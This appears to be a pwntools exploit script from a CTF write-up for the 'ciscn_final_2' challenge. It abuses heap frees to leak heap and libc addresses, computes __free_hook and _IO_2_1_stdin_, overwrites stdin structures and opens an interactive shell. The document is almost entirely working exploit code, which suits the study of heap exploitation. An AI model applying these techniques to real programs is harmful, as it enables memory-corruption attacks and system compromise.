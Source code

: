 ```python
def quit(content):
	io.sendlineafter(b'which command?\n> ', b'4')
	io.sendlineafter(b'what do you want to say at last? ', content)
	
add(1, 0x12345678)
delete(1)
add(2, 0x1234)
add(2, 0x1234)
add(2, 0x1234)
add(2, 0x1234)
add(2, 0x1234)
delete(2)
add(1, 0x12345678)
delete(2)
show(2)
io.recvuntil(b'your short type inode number :')
heap_lsw = int(io.recvuntil(b'\n', drop=True).decode(), 10)
if heap_lsw < 0:
	heap_lsw += 65536
print(hex(heap_lsw))

add(2, heap_lsw - 0xC0)
delete(1)
add(2, 0x1234)
add(2, 0xB1)
delete(1)
for i in range(7):
	add(2, 0x1234)
	delete(1)

show(1)
io.recvuntil(b'your int type inode number :')
libc_base_lsdw = int(io.recvuntil(b'\n', drop=True).decode(), 10)
if libc_base_lsdw < 0:
	libc_base_lsdw += 0x1_0000_0000
libc_base_lsdw -= 0x3ebca0
__free_hook = libc_base_lsdw + 0x3ed8e8
_IO_2_1_stdin_ = libc_base_lsdw + 0x3eba00
print(hex(libc_base_lsdw))

add(2, (_IO_2_1_stdin_ & 0xFFFF) + 112)
add(1, 0x12345678)
add(1, 666)

quit(b'')

# gdb.attach(get_process_pid("./ciscn_final_2"))
io.interactive()
```

